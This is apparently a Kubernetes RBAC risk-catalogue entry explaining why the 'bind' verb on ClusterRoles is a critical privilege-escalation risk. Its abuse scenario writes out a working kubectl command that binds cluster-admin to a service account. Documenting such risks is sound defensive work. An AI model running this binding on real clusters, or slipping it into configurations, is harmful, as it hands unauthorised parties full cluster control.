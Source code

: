 ```yaml
---
id: 1032
title: "Bind ClusterRoles to identities (bind verb)"
description: "Permits using the 'bind' verb on ClusterRoles (or Roles). This allows a user to create a ClusterRoleBinding (or RoleBinding) that grants the permissions of a specific role to another user, group, or service account, potentially leading to privilege escalation if a highly privileged role is bound."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                   |
| ------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1032                                                                                                                                    |
| Name          | Bind ClusterRoles to identities (bind verb)                                                                                             |
| Risk Category | Elevation of Privilege                                                                                                                  |
| Risk Level    | {{< risk Critical >}}                                                                                                                   |
| Role Type     | ClusterRole                                                                                                                             |
| API Groups    | rbac.authorization.k8s.io                                                                                                               |
| Resources     | clusterroles                                                                                                                            |
| Verbs         | bind                                                                                                                                    |
| Tags          | {{< tag "BindingToPrivilegedRole" >}} {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Permits using the 'bind' verb on ClusterRoles (or Roles). This allows a user to create a ClusterRoleBinding (or RoleBinding) that grants the permissions of a specific role to another user, group, or service account, potentially leading to privilege escalation if a highly privileged role is bound.

## Abuse Scenarios

1. Create a ClusterRoleBinding to grant 'cluster-admin' to a service account, leveraging the 'bind' permission on the 'cluster-admin' ClusterRole.

```bash
# This command will succeed if the user has 'bind' on the 'cluster-admin' ClusterRole.
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: bind-to-cluster-admin
subjects:
- kind: ServiceAccount
  name: <serviceaccount-name>
  namespace: <namespace>
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
EOF
# Example: kubectl create -f - <<EOF ... EOF (bind 'default' SA in 'default' namespace to cluster-admin)

```
